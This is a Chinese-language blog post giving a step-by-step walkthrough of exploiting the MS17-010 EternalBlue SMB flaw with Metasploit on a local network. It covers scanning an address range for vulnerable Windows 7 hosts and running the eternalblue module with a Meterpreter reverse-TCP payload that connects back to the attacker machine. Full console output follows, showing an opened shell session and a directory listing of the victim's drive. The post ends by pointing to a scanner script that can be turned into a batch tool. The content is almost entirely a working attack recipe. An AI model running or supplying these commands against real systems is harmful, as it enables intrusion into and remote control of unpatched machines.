


# SMB MS17-010 利用（CVE-2017-0144 ） - starnight_cyber - 博客园

> 原文：[`www.cnblogs.com/Hi-blog/p/7339588.html`](https://www.cnblogs.com/Hi-blog/p/7339588.html)

exploit-db : https://www.exploit-db.com/exploits/42315/

该漏洞的影响版本很广泛：Microsoft Windows Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)

具体请查看公告：[Microsoft 安全公告 MS17-010 - 严重](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2017/ms17-010)

下面简单记录局域网内，漏洞的利用过程，以备忘。

### 1、更新 Metasploit

Metasploit 里已经集成了该漏洞利用脚本，可能使用之前需要更新一下。

```
root@kali:~# apt update; apt install metasploit-framework
```



### 2、查找 smb_ms17_010 脚本位置

```
msf > search ms17-010
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                      Disclosure Date  Rank     Description
   ----                                      ---------------  ----     -----------
   auxiliary/scanner/smb/smb_ms17_010                         normal   MS17-010 SMB RCE Detection
   exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

### 3、扫描检测

```
msf > use auxiliary/scanner/smb/smb_ms17_010
msf auxiliary(smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      445              yes       The SMB service port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_ms17_010) > set rhosts 192.168.1.1-254
rhosts => 192.168.1.1-254
msf auxiliary(smb_ms17_010) > exploit

[+] 192.168.1.15:445      - Host is likely VULNERABLE to MS17-010!  (Windows 7 Professional 7601 Service Pack 1)
[+] 192.168.1.16:445      - Host is likely VULNERABLE to MS17-010!  (Windows 7 Professional 7601 Service Pack 1)
```

后面的就不再展示了，上面的话还可以设置扫描线程数 THREADS， 以加快扫描速度。

除了上面可以检测网段之外，也可以针对单个 ip 进行检测。以 192.168.1.16:445 为例：

```
msf auxiliary(smb_ms17_010) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf auxiliary(smb_ms17_010) > exploit

[+] 192.168.1.16:445      - Host is likely VULNERABLE to MS17-010!  (Windows 7 Professional 7601 Service Pack 1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 4、漏洞利用 getshell

从上面我们已经找到存在 MS17-010 漏洞的局域网主机 192.168.1.16， 下面可以开始利用了。

```
msf auxiliary(smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   GroomAllocations    12               yes       Initial number of times to groom the kernel pool.
   GroomDelta          5                yes       The amount to increase the groom count by per try.
   MaxExploitAttempts  3                yes       The number of times to retry the exploit.
   ProcessName         spoolsv.exe      yes       Process to inject payload into.
   RHOST                                yes       The target address
   RPORT               445              yes       The target port (TCP)
   SMBDomain           .                no        (Optional) The Windows domain to use for authentication
   SMBPass                              no        (Optional) The password for the specified username
   SMBUser                              no        (Optional) The username to authenticate as
   VerifyArch          true             yes       Check if remote architecture matches exploit Target.
   VerifyTarget        true             yes       Check if remote OS matches exploit Target.

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.16　　　　【靶机】
rhost => 192.168.1.16
msf exploit(ms17_010_eternalblue) > exploit
```

 本地攻击机的 ip 是 192.168.1.115




### 5、漏洞利用 meterpreter

这里就直接给出利用过程了：

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   GroomAllocations    12               yes       Initial number of times to groom the kernel pool.
   GroomDelta          5                yes       The amount to increase the groom count by per try.
   MaxExploitAttempts  3                yes       The number of times to retry the exploit.
   ProcessName         spoolsv.exe      yes       Process to inject payload into.
   RHOST                                yes       The target address
   RPORT               445              yes       The target port (TCP)
   SMBDomain           .                no        (Optional) The Windows domain to use for authentication
   SMBPass                              no        (Optional) The password for the specified username
   SMBUser                              no        (Optional) The username to authenticate as
   VerifyArch          true             yes       Check if remote architecture matches exploit Target.
   VerifyTarget        true             yes       Check if remote OS matches exploit Target.

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp　　　　　　【反弹 shell】
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.103　　　　　　　　　　　　　　　　　　　  【漏洞主机】
rhost => 192.168.1.103
msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115　　　　　　　　　　　　　　　　　　　　【监听的主机】
lhost => 192.168.1.115
msf exploit(ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.1.115:4444 
[*] 192.168.1.103:445 - Connecting to target for exploitation.
[+] 192.168.1.103:445 - Connection established for exploitation.
[+] 192.168.1.103:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.103:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.1.103:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.1.103:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 192.168.1.103:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 192.168.1.103:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.103:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.103:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.103:445 - Starting non-paged pool grooming
[+] 192.168.1.103:445 - Sending SMBv2 buffers
[+] 192.168.1.103:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.103:445 - Sending final SMBv2 buffers.
[*] 192.168.1.103:445 - Sending last fragment of exploit packet!
[*] 192.168.1.103:445 - Receiving response from exploit packet
[+] 192.168.1.103:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.103:445 - Sending egg to corrupted connection.
[*] 192.168.1.103:445 - Triggering free of corrupted buffer.
[*] Sending stage (1188415 bytes) to 192.168.1.103
[*] Meterpreter session 1 opened (192.168.1.115:4444 -> 192.168.1.103:49169) at 2017-08-15 04:50:12 -0400
[+] 192.168.1.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > dir C:\
Listing: C:\
============

Mode             Size   Type  Last modified              Name
----             ----   ----  -------------              ----
40777/rwxrwxrwx  0      dir   2017-07-18 05:44:00 -0400  $Recycle.Bin
40777/rwxrwxrwx  0      dir   2017-07-25 10:54:59 -0400  360Downloads
40777/rwxrwxrwx  0      dir   2009-07-14 01:08:56 -0400  Documents and Settings
40777/rwxrwxrwx  0      dir   2009-07-13 23:20:08 -0400  PerfLogs
40555/r-xr-xr-x  4096   dir   2017-07-18 06:41:07 -0400  Program Files
40555/r-xr-xr-x  4096   dir   2017-07-25 10:52:48 -0400  Program Files (x86)
40777/rwxrwxrwx  4096   dir   2017-08-14 22:57:23 -0400  ProgramData
40777/rwxrwxrwx  0      dir   2017-07-18 05:43:47 -0400  Recovery
40777/rwxrwxrwx  4096   dir   2017-07-25 08:41:04 -0400  System Volume Information
40555/r-xr-xr-x  4096   dir   2017-07-18 05:43:52 -0400  Users
40777/rwxrwxrwx  16384  dir   2017-07-25 07:54:37 -0400  Windows
0000/---------   0      fif   1969-12-31 19:00:00 -0500  pagefile.sys
40777/rwxrwxrwx  0      dir   2017-07-18 05:49:23 -0400  share
```

从上面可以看到我们已经拿到一个**meterpreter ... **

### Github

另外附上 github 上找到的一个脚本，可以很方便的改成一个批量脚本：

https://github.com/pythonone/MS17-010/blob/master/scanners/smb_ms17_010.py

好了，到此结束，欢迎跟我留言交流。